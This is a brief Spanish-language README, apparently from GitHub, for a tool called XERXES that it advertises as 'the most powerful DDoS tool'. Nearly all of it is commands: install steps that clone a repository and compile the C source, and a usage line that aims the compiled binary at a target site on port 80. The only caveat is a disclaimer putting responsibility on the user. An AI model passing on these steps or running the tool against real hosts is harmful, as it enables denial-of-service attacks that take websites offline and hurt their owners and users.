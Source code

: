 # XERXES
XERXES la herramienta Ddos más potente.

__🦂 INSTALACION:🦂__

* apt update && apt upgrade -y

* pkg install -y git

* git clone https://github.com/Scorpio28-Official/XERXES

* cd XERXES

* ls

* chmod 777 xerxes.c

* ls

* gcc xerxes.c -o xerxes

__USO:__


* ./xerxes www.fakeweb.com 80

__By: Scorpio28__

__El uso de la herramienta, es responsabilidad de quien la utilize.__


__🎭 EL CONOCIMIENTO ES LIBRE. 🎭__
